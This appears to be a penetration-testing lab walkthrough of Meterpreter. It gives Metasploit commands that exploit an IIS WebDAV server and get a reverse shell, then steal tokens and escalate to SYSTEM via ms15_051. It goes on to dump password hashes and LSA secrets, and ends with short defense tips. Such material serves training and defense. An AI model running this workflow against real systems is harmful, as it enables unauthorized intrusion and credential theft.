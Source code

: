 

## How Meterpreter Works

1. **Stager Execution**
    
    - Triggered after a successful exploit.
        
    - Example: **bind** or **reverse TCP** stager.
        
2. **Reflective DLL Loading**
    
    - Injects Meterpreter DLL directly into memory for stealth.
        
3. **Secure Channel**
    
    - Establishes **AES-encrypted** communication between attacker and target.
        
4. **Extension Loading**
    
    - Loads extra modules such as:
        
        - `stdapi` – Core commands (file system, networking, etc.)
            
        - `priv` – Privilege escalation tools
            

---

## Common Meterpreter Commands

View help menu:

```
meterpreter > help
```

---

## Practical Example – Exploitation Workflow

### 1. Start Metasploit Database

```
msfdb run
```

---

### 2. Reconnaissance

Use Nmap through Metasploit:

```
msf6 > db_nmap -sV -p- -T5 -A 10.10.10.15
```

**Identifies:**

- Port 80 open
    
- Microsoft IIS httpd 6.0 → WebDAV vulnerabilities likely
    

---

### 3. Search & Use Exploit

Search for a matching module:

```
msf6 > search iis_webdav_upload_asp
```

Use the exploit:

```
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
msf6 exploit(...) > set RHOST 10.10.10.15
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > run
```

---

### 4. Gain Meterpreter Shell

Successful exploitation = Meterpreter session:

```
meterpreter >
```

_Note: Files may remain on the victim if cleanup fails._

---

### 5. Initial Privilege Check

Check current user:

```
meterpreter > getuid
```

If low privilege, try token impersonation:

```
meterpreter > ps
meterpreter > steal_token [PID]
meterpreter > getuid
```

---

### 6. Local Privilege Escalation

Run the local exploit suggester:

```
meterpreter > bg
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION [ID]
msf6 post(...) > run
```

Apply suggested exploit:

```
msf6 > use exploit/windows/local/ms15_051_client_copy_image
msf6 exploit(...) > set SESSION [ID]
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > run
```

---

### 7. Achieve SYSTEM Privileges

Confirm privilege level:

```
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
```

---

## Post-Exploitation Activities

Once **SYSTEM-level access** is obtained:

- **Extract password hashes**
    
    ```
    meterpreter > hashdump
    ```
    
- **Dump LSA secrets**
    
    ```
    meterpreter > lsa_dump_secrets
    ```
    
- **Pivot within the network**
    
    - Lateral movement
        
    - User impersonation
        
    - Access additional internal systems
        

---

## Defense Tips (For Admins)

- Patch vulnerable services immediately.
    
- Restrict unnecessary services like WebDAV.
    
- Use endpoint detection and response (EDR) tools.
    
- Monitor for suspicious outbound connections.
    
- Employ least-privilege principles and segment networks.